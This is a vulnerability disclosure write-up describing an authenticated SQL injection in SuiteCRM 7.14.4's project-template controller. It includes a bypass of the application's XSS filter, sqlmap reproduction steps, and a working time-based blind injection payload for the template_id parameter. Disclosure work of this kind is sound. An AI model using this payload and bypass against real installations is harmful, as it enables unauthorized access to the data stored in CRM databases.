



# SuiteCRM-7.14.4-SQLi
### Summary:
In SuiteCRM versions 7.14.4, poor input validation allows authenticeted user inject SQL query to retrieve data in database.

### Vuln code:
The vulnerability exists in the **controller.php** file of the **AM_ProjectTemplates** module. 
This file gets user inputs **$template_id** via POST request (line 42) and uses them in a SQL query without sanitization.
 
**$template_id** parameter is concatenated in SQL query (line 150).

Application uses **“securexss”** function for every parameter used in application environment. 
 
But it can be easily bypassed by adding a **"<"** character before the payload.

### Reproduce bug:
Step 1: Access to http://localhost:8000/SuiteCRM/index.php?action=Login&module=Users and login with low privilege user

Step 2: Access to http://localhost:8000/SuiteCRM/index.php?module=AM_ProjectTemplates&action=EditView and create a project template

Step 3: Create Project and use Burp Suite to intercept request POST to http://localhost:8000/SuiteCRM/index.php?module=AM_ProjectTemplates&action=create_project. 

 Save the request to SQLi-suitecrm.txt

Step 4: Run Sqlmap to inject payload sqli to param **template_id**. 

The returned SQLmap result was injected successfully. 
**Parameter: template_id (POST) 
    Type: time-based blind 
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP) 
    Payload: p_name=tesst123&start_date=07/04/2024&copy_all_tasks=1&template_id=64eb0e1b-f0e5-f7ff-acc8-668646f3ad51<') AND (SELECT 1094 FROM (SELECT(SLEEP(5)))hxxN) AND ('Mstd'='Mstd** 

